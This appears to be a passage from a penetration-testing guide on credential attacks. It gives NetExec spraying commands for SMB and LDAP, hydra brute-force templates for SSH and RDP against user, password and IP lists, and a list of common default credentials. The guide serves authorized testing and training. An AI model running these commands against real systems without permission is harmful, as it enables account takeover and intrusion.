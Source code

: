 ```bash
# SMB (port 139,445)
nxc smb $IP -u users.txt -p $PASSWORD
nxc smb $IP -u users.txt -p passwords.txt
# LDAP (port 389,636)
nxc ldap $IP -u users.txt -p $PASSWORD
nxc ldap $IP -u users.txt -p passwords.txt
...
```

### Brute Forcing

In [#spray-passwords](scanning-spraying.md#spray-passwords "mention") you read how most Windows protocols have a lockout policy. RDP and SSH however don't have this by default and may allow long brute-force attacks that can guess more complex passwords. The best tool for this job is `hydra`:

{% embed url="https://github.com/vanhauser-thc/thc-hydra" %}
Brute Forcing tool for many protocols and built for speed at scale
{% endembed %}

Similar to NetExec, it implements various protocols. But this tool is specially built for brute force attacks at a large scale. It does not have further exploitation capabilities, only finding credentials.&#x20;

For the username, password, and IP you can choose either a static value, or try everything from a list.&#x20;

{% code title="Templates (SSH)" %}
```bash
hydra -l $USERNAME -p $PASSWORD -M ips.txt ssh  # Try password on all IPs (SSH)
hydra -l $USERNAME -P /list/passwords.txt ssh://$IP  # Guess password for one user
hydra -L /list/usernames.txt -p $PASSWORD ssh://$IP  # Guess username for a password
hydra -L /list/usernames.txt -P /list/passwords.txt ssh://$IP  # Guess user and pass
hydra -C /list/credentials.txt -M ips.txt ssh  # Try specific credentials on all IPs
```
{% endcode %}

To brute force RDP, or another supported protocol, simply replace `ssh` with `rdp`:

```bash
hydra -l $USERNAME -p $PASSWORD -M ips.txt rdp  # Try password on all IPs (RDP)
```

Another common task is trying common credentials on website login pages. If the login page looks like a common piece of software, your first step should be **looking up the "default credentials"** in a search engine. Otherwise, some of the credentials below are common defaults:

```
admin:admin
admin:password
admin:root
root:root
root:password
root:admin
guest:guest
user:password
```
